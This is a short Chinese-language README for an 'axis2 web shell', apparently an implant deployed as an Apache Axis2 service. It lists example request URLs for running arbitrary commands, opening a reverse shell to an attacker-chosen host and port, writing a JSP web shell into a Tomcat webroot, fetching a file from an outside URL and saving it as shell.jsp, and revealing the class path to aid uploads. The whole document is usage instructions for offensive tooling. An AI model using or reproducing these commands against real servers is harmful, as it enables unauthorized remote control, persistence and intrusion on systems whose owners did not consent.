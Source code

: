 axis2
=========

axis2 web shell


使用介绍：

1、命令执行
http://1.1.1.1/services/config/exec?cmd=whoami 
(不说了，执行命令。注意:xml换行没有处理好)

2、反弹shell
http://1.1.1.1/services/config/shell?host=1.1.1.1&port=5555 
(Linux则使用bash反弹shell，window则会进行socket执行shell)


3、文件上传
http://1.1.1.1/services/config/upload?path=/opt/tomcat/webapps/ROOT/shell.jsp 
(会把resource目录下面的one.txt 写成shell.jsp，注意：全路经，带*文件名)


4、文件下载
http://1.1.1.1/services/config/download?url=http://www.ooo.com/mm.txt&path=/opt/tomcat/webapps/ROOT/shell.jsp
(会把这个URL的文件写成shell.jsp，注意：全路经，带*文件名)


5、class目录查看
http://1.1.1.1/services/config/getClassPath
(会显示当前class的路径，方便文件上传)


